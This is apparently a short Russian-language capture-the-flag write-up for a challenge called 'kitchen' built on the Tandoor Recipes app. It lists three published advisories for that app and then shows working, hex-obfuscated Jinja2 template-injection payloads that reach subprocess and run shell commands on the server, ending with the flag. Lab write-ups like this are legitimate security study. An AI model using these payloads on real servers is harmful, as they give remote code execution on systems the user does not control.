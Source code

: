 # kitchen

Заходим на сайт. Видим довольно большое по размеру приложение. вряд ли  оно было написано специально для ctf. Гуглим название, находим проект на гитхаб и видим 3 уязвимости во вкладке security

[Stored XSS through Unrestricted File Upload](https://github.com/TandoorRecipes/recipes/security/advisories/GHSA-56jp-j3x5-hh2w) by vabene1111 High

[Local file disclosure - Users can read the content of any file on the server](https://github.com/TandoorRecipes/recipes/security/advisories/GHSA-jrgj-35jx-2qq7) by vabene1111 High

[SSTI - Remote Code Execution](https://github.com/TandoorRecipes/recipes/security/advisories/GHSA-r6rj-h75w-vj8v) by vabene1111 Critical

Пробуем третий экслойт, он работает.
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(418)('whoami',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}

```
```
nobody
```
---
Ищем наш исполняемый файл.
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(418)('find / -name print_flag',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}

```
```
/opt/ctf/secret/print_flag
```
Выполняем.
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(418)('/opt/ctf/secret/print_flag',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}

```
```
MSKCTF{d97e0da93b8a4ed13e81c0936e7a453dec63370e} 
```

---
# Flag: MSKCTF{d97e0da93b8a4ed13e81c0936e7a453dec63370e} 

